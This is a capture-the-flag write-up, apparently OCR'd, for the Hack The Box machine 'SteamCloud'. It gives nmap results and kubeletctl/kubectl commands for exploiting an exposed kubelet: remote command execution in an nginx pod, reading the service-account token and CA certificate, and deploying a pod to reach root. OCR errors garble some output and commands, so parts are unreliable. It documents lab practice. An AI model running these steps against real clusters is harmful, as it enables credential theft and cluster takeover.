 ```yaml
---
title: SteamCloud Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
 PORT STATUS SERVICE VERSION
 22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
 | ssh-hostkey: 
 | 2048 fcfb90ee7c73a1d4bf87f871e844c63c (RSA)
 | 256 46832b1b01db71646a3e27cb536f81a1 (ECDSA)
 |256 1d8dd341f3ffa437e8ac780889c2e3c5 (ED25519)
 2379/tcp open ssl/etcd-client?
 | tls-alpn: 
 |_ h2
 | ssl-cert: Subject: commonName=steamcloud
 | Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.129.100.253, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:0:0:0:1
 |Invalid before: 2022-11-17T20:33:08
 |_ssl-date: Not valid after: 2023-11-17T20:33:09
 |_ssl-date: TLS randomness does not represent time
 2380/tcp open ssl/etcd-server?
 | tls-alpn: 
 |_ h2
 | ssl-cert: Subject: commonName=steamcloud
 | Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.129.100.253, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:0:0:0:1
 |Invalid before: 2022-11-17T20:33:08
 |_ssl-date: Not valid after: 2023-11-17T20:33:09
 |_ssl-date: TLS randomization does not represent time
 8443/tcp open ssl/https-alt
 | fingerprint-strings: 
 | FourOhFourRequest: 
 | HTTP/1.0 403 Forbidden
 | Audit-Id: e6c52384-d61c-4697-ae29-cefc13646345
 | Cache-Control: no-cache, private
 | Content-Type: application/json
 | X-Content-Type-Options: nosniff
 | X-Kubernetes-Pf-Flowschema-Uid: 6a20aa9c-6a62-4b31-b688-2e6450915419
 | X-Kubernetes-Pf-Prioritylevel-Uid: 68e373cb-64b3-405b-a8ae-68fb633e17f2
 | Date: Thu, 17 Nov 2022 20:38:37 GMT
 | Content: 212
 | {"kind": "Status", "apiVersion": "v1", "metadata":{}, "status": "Failure", "message": "forbidden: "User "system:anonymous" cannot get path"/nice ports,/Trinity.txt.bak"", "reason": "Forbidden", "details":{}, "code":403}
 | GetRequest: 
 | HTTP/1.0 403 Forbidden
 | Audit-Id: 9179f2a5-3526-44c6-9dc4-b8a2e3624547
 | Cache-Control: no-cache, private
 | Content-Type: application/json
 | X-Content-Type-Options: nosniff
 | X-Kubernetes-Pf-Flowschema-Uid: 6a20aa9c-6a62-4b31-b688-2e6450915419
 | X-Kubernetes-Pf-Prioritylevel-Uid: 68e373cb-64b3-405b-a8ae-68fb633e17f2
 | Date: Thu, 17 Nov 2022 20:38:36 GMT
 | Content: 185
 | {"kind": "Status", "apiVersion": "v1", "metadata":{}, "status": "Failed", "message": "forbidden: "User "system:anonymous" cannot get path "/"", "reason": "Forbidden", "details":{}, "code":403}
 | HTTPOptions: 
 | HTTP/1.0 403 Forbidden
| Audit-Id: c8cc664f-0379-4728-b17a-bd8bd4943cf0
| Cache-Control: no-cache, private
| Content-Type: application/json
| X-Content-Type-Options: nosniff
| X-Kubernetes-Pf-Flowschema-Uid: 6a20aa9c-6a62-4b31-b688-2e6450915419
| X-Kubernetes-Pf-Prioritylevel-Uid: 68e373cb-64b3-405b-a8ae-68fb633e17f2
| Date: Thu, 17 Nov 2022 20:38:36 GMT
| Contents: 189
|_ {"kind": "Status", "apiVersion": "v1", "metadata":{}, "status": "Failed", "message": "forbidden: "User "system:anonymous" cannot options path "/"", "reason": "Forbidden", "details":{}, "code":403}
|_http-title: Site has no title (application/json).
| tls-alpn: 
| h2
|_http/1.1
| ssl-cert: Subject: commonName=minikube/organizationName=system:masters
| Subject Alternative Name: DNS:minikubeCA, DNS:control-plane.minikube.internal, DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default, DNS:kubernetes, DNS:kubernetes, DNS:localhost, IP Address:10.129.100.253, IP Addre
ss:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1
|Invalid before: 2022-11-16T20:33:06
|_ssl-date: Not valid after: 2025-11-16T20:33:06
|_ssl-date: TLS randomness does not represent time
10249/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site has no title (text/plain; charset=utf-8).
10250/tcp open ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site has no title (text/plain; charset=utf-8).
|_ssl-date: TLS randomness does not represent time.
| ssl-cert: Subject: commonName=steamcloud@1668717190
|_ssl-cert: Subject alternate name: DNS:steamcloud
| Not valid before: 2022-11-17T19:33:10
| Invalid after: 2023-11-17T19:33:10
| tls-alpn: 
| h2
| http/1.1
10256/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site has no title (text/plain; charset=utf-8).
1 service not recognized despite returning data. If you know the service/version, please send the following fingerprint to https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.93%T=SSL%I=7%D=11/17%Time=63769BCC%P=x86_64-pc-linux-g
```

Looking at port 10250 we already know that we are dealing with kubernetes, and 8443 for tomcat and https.

# User exploit 

We investigate about kubernetes in hacktricks:
https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-basics

Using the command
```shell
kubeletctl pods --server 10.129.100.253 
```

We can see that it has a default service, which is nginx.

If we do 
```shell
kubeletctl scan token --server 10.129.100.253
```

we can get the account token of each service, getting the nginx account token again, but I don't know if it does any good.

With the command 
```shell
kubeletctl scan rce --server 10.129.100.253
```
we see that nginx has a RCE, so let's exploit it. However, with the following command we can see the user.txt:

```shell
kubeletctl run "cat /root/user.txt" --namespace default --pod nginx --container nginx --server 10.129.100.253
```

## Root exploit

Using the command 
```shell
kubeletctl run "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" --namespace default --pod nginx --container nginx --server 10.129.100.253
```

we can see the nginx certificate (I guess)

and the token:

```shell
kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/token" --namespace default --pod nginx --container nginx --server 10.129.100.253
```

Once we have it, we can connect to the machine:

```shell
export token = (Token previously taken)

kubectl --token=$token --certificate-authority=ca.crt --
server=https://10.129.100.253:8443 get pods
```

Once we are inside, let's see what permissions we have:

```shell
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.100.253:8443 auth can-i --list
```

and we see that we can create lists in the pods and their respective permissions.

As we have the list and create permissions, we can create a new user from a .yaml file.

Let's create the `nginx` pod and list it :
```shell
kubectl --token=$token --certificate-authority=ca.crt --
server=https://10.129.100.253:8443 apply -f f.yaml

kubectl --token=$token --certificate-authority=ca.crt --
server=https://10.129.100.253:8443 get pods
```

finally, we can see the root.txt
```shell
kubeletctl --server 10.129.100.253 exec "cat /root/root/root.txt" -p nginxt -c nginxt
```

 

